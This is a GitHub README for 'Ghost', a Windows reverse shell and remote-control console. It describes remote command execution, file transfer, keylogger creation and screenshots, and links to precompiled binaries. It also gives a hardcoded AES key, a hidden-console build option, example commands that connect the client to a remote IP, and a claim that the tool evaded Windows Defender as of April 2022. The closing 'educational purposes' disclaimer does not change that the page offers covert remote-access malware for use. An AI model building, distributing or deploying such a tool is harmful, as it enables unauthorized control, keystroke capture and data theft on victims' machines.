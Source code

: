 # Ghost
Reverse shell and management console for Windows. Communication between the reverse shell and the management console is AES encrypted. Reverse shell and management console support tcp and udp protocols. 


Some of its features are
-------------------------

-Sends commands to cmd and powershell,

-Creates or extracts zip files

-Downloads files from the Internet,

-Supports file upload and download,

-Creates keylogger program,

-Takes a screenshot

-Communication between server and client is AES encrypted.

The compiled version of the program can be downloaded from the links below.
--------------------------------------------------------------------------
1) Compiled without using the "--noconsole" command 
  
  ghost_v4_showconsole.rar ==> zip password: "ghost_v4"

  https://drive.google.com/file/d/1HP1k290aP3AUrUK29sgq-GRfaxSKxcJJ/view?usp=sharing

2) Compiled using the "--noconsole" command

  ghost_v4_noconsole.rar ==> zip password: "ghost_v4"

  https://drive.google.com/file/d/18KQ2JjyOAwZ34Gn_hYyUJMPNq6XeqhhS/view?usp=sharing


Requirements
-------------------
Required libraries:  pycryptodome , requests, pyautogui, pyinstaller

>> pip install pycryptodome

>> pip install  requests

>> pip install pyautogui

>> pip install pyinstaller

"pyinstaller" will be used to make the code one piece executable


Settings
--------------

>> (1) master.py

![master](https://user-images.githubusercontent.com/71177413/162610379-f8baa1f8-050a-4923-90fe-287267a8e994.JPG)

    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "0.0.0.0"                                 # This value in "master.py" should not be changed in order for "slave.py" to be connected.
    SOCKET_PORT     = 9292                                      # "slave.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 0                                   # No timeout. It is recommended to set the value to "0" for master.py.
    
    
   
   >> (2) slave.py
   
   ![slave](https://user-images.githubusercontent.com/71177413/162610823-5da57505-edf6-44c1-b7a9-74a3062beab6.JPG)
   
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "127.0.0.1"                               # The IP to which "slave.py" will be connected
    SOCKET_PORT     = 9292                                      # "master.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET
    SYSTEM_DEFAULTTIMEOUT = 300                                 # 5 minutes; It is recommended to be non-zero for "UDP". When the connection is lost or an error occurs, "slave.py" tries to connect again after this period. At the same time, if it does not receive a command from "master.py" within this time, it tries to connect again. Therefore, setting a very low value is also not appropriate.
    
  
>>Except for encryption, these values can be changed with initial parameters if desired.

master.exe -h      ==> Shows help parameters.

slave -h           ==> Not shows help parameters because of the parameter ("--noconsole") used while compiling

Example:

master -udp -c:cp857  -t:00 8080             ==> (8080 port)

master -tcp -c:utf-8  -t:600 9393            ==> (9393 port)

master 7272                                  ==> (7272 port)

slave  -udp -c:cp857  -t:600 1.1.1.1:8080    ==> (1.1.1.1 ip - 8080 port)

slave  -tcp -c:utf-8  -t:00  1.1.1.1:9393    ==> (1.1.1.1 ip - 9393 port)

slave 3.3.3.3:7272                           ==> (3.3.3.3 ip - 7272 port)

![1](https://user-images.githubusercontent.com/71177413/162611487-baabc2aa-2c37-4a9b-b178-74dbb8d08d75.JPG)

![2](https://user-images.githubusercontent.com/71177413/162611490-e24ad077-5b4d-4a33-8ac9-c72f24d91829.JPG)


compilation
------------

(show console for slave.py)

>>pyinstaller --onefile --icon=master.ico master.py

>>pyinstaller --onefile --icon=slave.ico slave.py

or (hide console for slave.py)

>>pyinstaller --onefile --icon=master.ico master.py

>>pyinstaller --onefile --noconsole --icon=slave.ico slave.py


Commands for master.py
-----------------------

>> commands      ==> Shows commands very briefly.

![3](https://user-images.githubusercontent.com/71177413/162611768-9e3e7ad6-298a-4c7d-b907-320f2696003a.JPG)


>> help          ==> Shows commands in detail.

![4](https://user-images.githubusercontent.com/71177413/162611775-ed01e4f7-4dfb-4aa0-a6cb-9b7877528e1f.JPG)


Notes
-------
First, master.py should be run, then slave.py should be run. Otherwise, slave.py will wait for the timeout and try to connect again.



Some images of the working of the program
------------------------------------

[1] 

![5](https://user-images.githubusercontent.com/71177413/162612140-749b42ed-b450-4a60-a43d-00e3f2eea801.JPG)


[2]

![6](https://user-images.githubusercontent.com/71177413/162612197-5cf920c1-8d3e-4647-99b5-a45b408cf275.JPG)


[3]

![11](https://user-images.githubusercontent.com/71177413/162612212-a7019220-d3db-4024-9d3a-f548e902b32b.JPG)


[4]

![7](https://user-images.githubusercontent.com/71177413/162612297-5da94b20-8b7f-40ec-92e4-1733e6a58059.JPG)


[5]

![8](https://user-images.githubusercontent.com/71177413/162612229-110697a1-b587-4bc2-ada1-1742538f4fb1.JPG)


[6]

![10](https://user-images.githubusercontent.com/71177413/162612315-b7bf2aa0-f349-4e85-b22c-aab987ca43d1.JPG)


[7]

![13](https://user-images.githubusercontent.com/71177413/162613543-95a90c3f-f4c6-434b-b05e-a91769ee9096.JPG)


[8]

![14](https://user-images.githubusercontent.com/71177413/162613551-a6027fef-7673-46a5-933f-251f4f26efcb.JPG)


Windows Defender
-----------------
As of 10/04/2022, It is not caught by the Windows Defender program. Over time this will change.


legal warning
------------------
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

